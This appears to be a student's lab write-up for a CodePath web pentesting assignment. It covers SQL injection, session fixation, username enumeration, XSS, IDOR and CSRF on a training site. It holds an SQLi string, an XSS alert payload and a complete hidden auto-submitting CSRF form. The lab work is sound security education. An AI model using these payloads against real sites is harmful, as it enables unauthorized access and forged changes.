






# Project 9 - Pentesting Live Targets

Time spent: **7** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

### Vulnerability #1: SQL Injection

Description: SQl Injection or SQLi is a type of cybersecurity attack that targets databases using specifically crafted SQL statements. The goal is to trick the system(s) into doing unexpected and undesired things. SQL Injection occurs when an application fails to sanitize untrusted data.

In CodePath's Unit 9 Concept Review section, they provided the SQL statement, _' OR 1=1 --'_. This may or may not have been a hint, but just substituting it for the value of _id_ in the blue site's "Find a Saleperson" tab does not work. I took my chances and modified _' OR 1=1 --'_ into _' OR 1=1 '_ and tried substituting it for the value of _id_ and it returns a "Database query failed."



### Vulnerability #2: Session Hijacking/Fixation

Description: Session Hijacking/Fixation is an attack where the attacker steals a user's active session with a website to gain unauthorizaed access to actions and information on that site.

Used the site, https://35.184.88.145/red/public/hacktools/change_session_id.php, to change the session identification. On the Incognito Chrome browser, I logged in with credentials and changed the session id, which I copied over to my original unlogged-in site. 



## Green

### Vulnerability #1: Username Enumeration

Description:
Username Enumeration is the process of developing a list of all valid usernames on a server or web application and it becomes possible if the server or web application provides a clue as to whether or not the username exists.

When using CodePath's supplied username, "jmonroe99", which already exists, the green site displayed a login error in bold.
But when using a madeup username, "kevin123", which under the assumption that there is no username like this in the server, the green site displayed an unbolded login error.
Although both errors returns "Log in was unsuccessful.", the only visual difference was one was bold and the other was not.

Using the _inspect_ element, I analyzed both the bolded and unbolded login errors and it turns out there are two _span_ tag classes -- "failure", which results in the bolded login error and "failed", which results in an unbolded login error.



### Vulnerability #2: Cross-Site Scripting

Description: Cross-Site Scripting (aka _XSS_) is when code puts user-supplied data in the response without sanitizing the data first.

CodePath gave the XSS script, _<script>alert('Mallory found the XSS!');</script>_ as an hint. The "Contact" page is a common ground for inputting some XSS scripts as users are free to post comments.




## Red

### Vulnerability #1: Insecure Direct Object Reference

Description: Insecure Direct Object Reference is when code accesses a restricted resource based on user input but fails to verify user's authorization to access that resource.

Through changing the _id_ parameter on the red site's "Find a Saleperson" tab, it is explicitly shown that entering the ids from 1-9 shows the salespeople in the database that are unrestricted/publicized, but when entering ids of 10 and 11, it is clearly written in parenthesis that their information is not meant to be shown.



### Vulnerability #2: Cross-Site Request Forgery

Description: Cross-Site Request Forgery is an attack in which a user is tricked into performing actions on another site by inadvertently clicking on a link or submitting a form. It is not a genuine user request.

Used an auto-submitting script to steal the user's session and forge a requet to the database.


Script Used:

```

<!DOCTYPE html>
<html>

<head>
  <title>FAKE Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=7" method="post" id="f" style="display: none;" target="hidden_results">
    <input type="text" name="first_name" value="GETHACKEDBOIII" />
    <input type="text" name="last_name" value="KARMA" />
    <input type="text" name="phone" value="911" />
    <input type="text" name="email" value="noemailforyou@gmail.com" />
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>

```


## Notes

Describe any challenges encountered while doing the work.
N/A

